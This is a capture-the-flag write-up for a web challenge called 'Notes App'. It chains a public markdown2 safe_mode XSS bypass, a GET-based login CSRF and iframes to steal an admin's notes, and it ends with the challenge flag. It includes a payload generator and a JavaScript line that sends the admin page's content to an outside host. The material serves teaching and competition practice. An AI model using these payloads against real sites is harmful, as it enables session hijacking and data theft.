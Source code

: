 # Notes App (Web, 488p)

For this task, a very simple Python application and its source code is provided.

[Sources](sources/)

## Analysis

![main app](images/main.png)

The application let us register, login, submit a link and edit a single field "note" that will be displayed on `/profile`.

The application code is pretty straightforward and allows us to insert markdown on our own profile page.

The python code responsible for markdown rendering (md2html) is the following:

```python
@app.route("/update_notes", methods=["POST"])
@login_required
def update_notes():
    # markdown support!!
    current_user.notes = markdown2.markdown(request.form.get("notes"), safe_mode=True)
    db.session.commit()
    return redirect("/profile")
```

Looking in the `requirements.txt` shows us that this is the latest version of `markdown2`:

```
markdown2==2.3.8
```

However, I found this github issue: [github issue # 341](https://github.com/trentm/python-markdown2/issues/341)

A possible injection is demonstrated:

```markdown
<http://g<!s://q?<!-<[<script>alert(1);/\*](http://g)->a><http://g<!s://g.c?<!-<[a\\*/</script>alert(1);/\*](http://g)->a>
```

This will be rendered as:

```html
<p><http://g<!s://q?<!-&lt;<a href="http://g"><script>alert(1);/*</a>->a><http://g<!s://g.c?<!-&lt;<a href="http://g">a\\*/</script>alert(1);/*</a>->a></p>
```

Then, I tried that on my profile page and it worked.

This should be a good entry point to our exploitation steps.

## Exploitation

Having a working payload is cool, but remember that the payload is reflected on the `/profile` page so we are not going to be able to send this link to the admin.

By the way, the admin uses this code to access our page:

```python

async def main(url):
    browser = await launch(headless=True,
                           executablePath="/usr/bin/chromium-browser",
                           args=['--no-sandbox', '--disable-gpu'])
    page = await browser.newPage()
    await page.goto("https://notes.web.byteband.it/login")
    await page.type("input[name='username']", "admin")
    await page.type("input[name='password']", os.environ.get("ADMIN_PASS"))
    await asyncio.wait([
        page.click('button'),
        page.waitForNavigation(),
    ])
    await page.goto(url)
    await browser.close()
```

First, he authenticates himself on the application, and then access the URL provided.

Also, another important thing to notice is that the `/login` endpoint accepts GET and does not have any check on the HTTP verb used:

```python
@app.route("/login", methods=["GET", "POST"]) # Accepts GET and POST
def login():

    # Redirect the user if he is already authenticated.
    if current_user.is_authenticated:
        return redirect("/profile")

    if request.args.get("username"):
        id = request.args.get("username")
        password = request.args.get("password")
        user = User.query.filter_by(id=id).first()
        if user and user.check_password(password=password):
            login_user(user)
            return redirect("/profile")

        flash("Incorrect creds")
        return redirect("/login")
    return render_template("login.html")
```

So, here is our strategy:

Send to the admin, a page containing 3 iframes:

1. The first one will point to the `/profile` page
2. The second one will point to the `/logout` page after the first one rendered (Used to logout the admin before we access `/login` for the third one)
3. The third one will point to our profile `https://notes.web.byteband.it/login?username=SakiiR&password=SakiiR` and execute arbitrary Javascript

The third iframe is the most important and will retrieve information from the parent iframe pointing to `/profile` to retrieve the admin note.

Before triggering the admin on this custom hosted page, we have to host script on our profile page.

To do that, I used a simple script reading arbitrary Javascript and "converting" it into a markdown2 payload:

```python
#!/usr/bin/env python3
# @SakiiR

import base64
from urllib.parse import quote_plus as urlencode


def main():
    content = ""
    with open("payload.js", "rb") as f:
        content = base64.b64encode(f.read()).decode()
        f.close()

    payload = urlencode(content)
    print(
        f"%3Chttp%3A%2F%2Fg%3C%21s%3A%2F%2Fq%3F%3C%21-%3C%5B%3Cscript%3Eeval%28atob%28%27{payload}%27%29%29%3B%2F%5C*%5D%28http%3A%2F%2Fg%29-%3Ea%3E%3Chttp%3A%2F%2Fg%3C%21s%3A%2F%2Fg.c%3F%3C%21-%3C%5Ba%5C%5C*%2F%3C%2Fscript%3Eeval%28atob%28%27{payload}%27%29%29%3B%2F*%5D%28http%3A%2F%2Fg%29-%3Ea%3E"
    )


if __name__ == "__main__":
    main()
```

I also used this following Javascript file to retrieve the parent iframe content:

```js
let content = top.frames[0].document.documentElement.innerHTML;

content = btoa(content);
window.location.replace("http://sakiir.ovh:31337/?exfil=" + content);
```

The following HTML page has been hosted on `sakiir.ovh` to perform the iframe thing:

```html
<html>
  <head></head>
  <body>
    <iframe
      style="width: 100%;"
      id="aframe"
      src="https://notes.web.byteband.it/profile"
    ></iframe>
    <!-- First action, retrieve the admin /profile into the iframe -->

    <iframe style="width: 100%;" id="bframe" src=""></iframe>
    <iframe style="width: 100%;" id="cframe" src=""></iframe>

    <script>
      const a = document.getElementById("aframe");
      const b = document.getElementById("bframe");
      const c = document.getElementById("cframe");

      b.onload = () => {
        // Third action, login as me and get redirected on my own /profile containing Javascript retrieving the **aframe** content
        c.src =
          "https://notes.web.byteband.it/login?username=SakiiR4&password=test";
      };

      // Second action, logout the admin so that he can login as me
      a.onload = () => {
        b.src = "https://notes.web.byteband.it/logout";
      };
    </script>
  </body>
</html>
```

Everything's ready, we send the link to the admin via the `/visit_link` endpoint and get the flag:

```
flag{ch41n_tHy_3Xploits_t0_w1n}
```

- SakiiR
